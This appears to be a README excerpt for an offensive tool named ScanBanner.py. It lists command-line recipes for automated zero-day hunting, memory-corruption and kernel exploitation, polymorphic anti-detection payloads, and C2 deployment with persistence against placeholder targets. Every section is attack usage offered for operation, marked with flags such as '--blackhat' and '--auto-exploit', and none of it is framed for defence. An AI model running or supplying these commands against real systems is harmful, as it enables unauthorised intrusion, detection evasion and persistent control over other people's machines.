 ### **🕳️ ZERO-DAY DISCOVERY**
```bash
# Automated zero-day hunting
python3 ScanBanner.py --target webapp.com --zero-day-discovery --blackhat --verbose

# Zero-day discovery with exploitation
python3 ScanBanner.py --target app.com --zero-day-discovery --auto-exploit --generate-poc
```

### **💀 MEMORY CORRUPTION EXPLOITS**
```bash
# Buffer overflow + ROP chain exploitation
python3 ScanBanner.py --target vulnerable-app.com --memory-corruption --blackhat

# Heap spraying + UAF exploitation
python3 ScanBanner.py --target heap-app.com --memory-corruption --auto-exploit

# JIT spraying for browser exploitation
python3 ScanBanner.py --target browser-app.com --memory-corruption --advanced-payloads
```

### **🔥 KERNEL PRIVILEGE ESCALATION**
```bash
# Automated kernel exploitation
python3 ScanBanner.py --target linux-server.com --kernel-exploits --auto-exploit

# Windows kernel exploitation + persistence
python3 ScanBanner.py --target windows-server.com --kernel-exploits --advanced-persistence

# CVE-specific targeting
python3 ScanBanner.py --target old-ubuntu.com --kernel-exploits --generate-poc
```

### **🎯 POLYMORPHIC PAYLOADS**
```bash
# Anti-detection payload generation
python3 ScanBanner.py --target webapp.com --advanced-payloads --stealth-mode phantom

# Multi-variant payload generation
python3 ScanBanner.py --target app.com --advanced-payloads --generate-poc --verbose

# Living off the land payloads
python3 ScanBanner.py --target corporate.com --advanced-payloads --osint
```

### **🎯 C2 FRAMEWORK DEPLOYMENT**
```bash
# C2 infrastructure deployment
python3 ScanBanner.py --target compromised.com --c2-deployment --auto-exploit

# C2 with advanced persistence
python3 ScanBanner.py --target server.com --c2-deployment --advanced-persistence
```
